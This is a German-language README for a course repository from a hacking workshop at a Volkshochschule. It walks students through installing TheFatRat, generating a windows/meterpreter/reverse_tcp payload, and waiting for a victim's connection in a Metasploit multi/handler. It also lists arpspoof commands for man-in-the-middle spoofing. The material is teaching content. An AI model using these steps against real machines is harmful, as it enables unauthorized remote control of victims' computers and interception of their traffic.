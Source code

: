 # VHS Hacking Workshop Tools
Official Repo of the Hacking Course at VHS by Benjamin Koltermann

## Download der Dateien
Zum Download der Dateien folges Kommando in das Kali Linux Terminal eingeben oder kopieren:
```
git clone https://github.com/p4ck3t0/vhs_hacking_workshop.git
```
Nun sollte mit
```
ls
```
der Ordner vhs_hacking_workshop erschienen sein. Mit dem Kommando
```
cd vhs_hacking_workshop
```
wechselt man in diesen Ordner. Hier liegen nun alle Dateien, die wir im Lehrgang benutzt haben.

## Der TCP Ordner
Im Ordner TCP befinden sich die beiden C Programme TCP_client.c und TCP_listener.c welche wir mit dem Kommando
```
ls
```
sehen können. Der listener stellt den Server da und der Client den Client mit dem wir uns auf dem Server verbinden. Das heißt zuerst muss der Server gestartet werden. Hierzu müssen wir die Datei TCP_listener.c zuerst mit der richtigen IP-Adresse configurieren. Mit
```
nano TCP_listener.c
```
können wir die Datei TCP_listener.c bearbeiten und die IP-Adresse anpassen. Diese finden wir etwas weiter unten in der Datei. Speichern können wir indem wir <STR + x> drücken. Anschließend müssen wir die TCP_listener.c Datei noch Compilieren (Ausführbar machen). Hierfür benutzten wir den GNU Compiler mit dem Kommando
```
gcc TCP_listener.c -o Server
```
Jetzt sollte mit ls eine Datei mit dem Namen Server in dem Ordner vorhanden sein. diese können wir mit
```
./Server
```
starten. Anschließend müssen wir den Client noch konfigurieren. Hierzu müssen wir die obigen Schritte wiederholen, und den listener in client ändern.

## Der Exploit_tool Ordner
Im Ordner Exploit_tool befindet sich die Instalationsdatei install_fatrat.sh. Diese Datei dient dazu das Exploit Tool zu Instalieren. Zuerst mussen wir die Datei install_fatrat.sh ausführbar machen. Das Kommando lautet
```
chmod +x install_fatrat.sh
```
Hiernach sollte mit
```
ls
```
eine grüne Datei install_fatrat.sh zu sehen sein. Diese können wir mit dem Befehl
```
./install_fatrat.sh
```
starten. Nun läuft die Instalation. Während der instalation kann es sein, dass noch ein paar Tasten gedrückt werden müssen. Dazu
lesen wir das, was das Terminal uns ausgibt.Hier müssen Sie leider selber entscheiden. Sollten Fehler auftreten, dann ist Google der beste Freund oder die Whatsapp Gruppe oder Die Issues Section von diesem Github Projekt. Nach erfolreicher instalation müssen wir in den neuen Ordner wechslen
```
cd TheFatRat
```
Anschließend können wir mit
```
./fatrat
```
Unser Exploit-Tool starten. Das weitere Vorgehen steht in der Facharbeit. Die von uns genutzte Zahlenkombination lautete:
* 6
* 2
* Dann nur noch die IP des Angreifers, Port, Name und die Payload (windows/meterpreter/reverse_tcp)
### Metasploit-Framework
Um die Verbindung vom opfer zu zulassen, müssen wir noch metasploit starten mit dem Befehl
```
msfconsole
```
Nach einiger ladezeit können wir nun Metasploit benutzten. Zuerst wollen wir den Handler benutzten. Dafür geben wir
```
use multi/handler
```
ein. Anschließend setzten wir mit
```
set LHOST IP-ADDR
```
und
```
set LPORT PORTNR
```
Die IP und den Port. Hier wählen wie die gleiche IP und Port wie im vorherigen Schritt in der Genereierung des Exploits. Zum Schluss setzten wir noch die Payload mit
```
set payload windows/meterpreter/reverse_tcp
```
Zum Schluss warten wir bis das Opfer sich zu uns verbindet. Das machen wir mit
```
exploit
```
Jetzt muss der Exploit auf dem System des Opfer gestartet werden.

## Wichtige Kommandos
* cd - in ein Verzeichnis wechslen
* nano - Datei bearbeiten/erstellen
* ls - Dateien im aktuellen Ordner auflisten
* mkdir - Verzeichnis erstellen
* ./Dateiname - Datei starten
* ip addr - IP-Configuration einsehen
* wireshark - wireshark starten
* arpspoof -t Client-IP Gateway-IP
* arpspoof -t Gateway-IP Client-IP

## Häufige Fehler
* no file or Directory - Die Datei oder der Ordner existiert nicht, liegt die Datei im aktuellen Ordner? Ist der Name Richtig geschieben? Das können wir mit
```
ls
```
üerprüfen. Am besten auch immer mit *TAB* arbeiten.
